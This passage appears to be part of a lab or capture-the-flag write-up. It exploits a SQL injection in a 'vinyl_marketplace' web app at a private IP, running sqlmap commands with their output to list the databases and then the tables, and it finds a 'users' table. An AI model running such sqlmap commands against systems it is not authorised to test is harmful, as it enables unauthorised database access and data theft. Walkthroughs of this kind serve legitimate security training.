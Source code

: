 We have a SQL injection ! Now, enumerate the databases  : 

```bash
sqlmap -r request.req --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:00:11 /2024-05-30/
------------------------REDACTED----------------------------------
[17:00:59] [INFO] retrieved: performance_schema
[17:01:55] [INFO] retrieved: vinyl_marketplace
available databases [3]:
[*] information_schema
[*] performance_schema
[*] vinyl_marketplace

[17:02:51] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:02:51 /2024-05-30/
```

Then, enumerate the tables : 
```bash
sqlmap -r request.req -D vinyl_marketplace --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.4.7#dev}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
----------------------------REDACTED-------------------------------
[17:03:50] [INFO] retrieved: 
[17:04:00] [INFO] adjusting time delay to 1 second due to good response times
users
Database: vinyl_marketplace
[1 table]
+-------+
| users |
+-------+

[17:04:14] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 17:04:14 /2024-05-30/
```
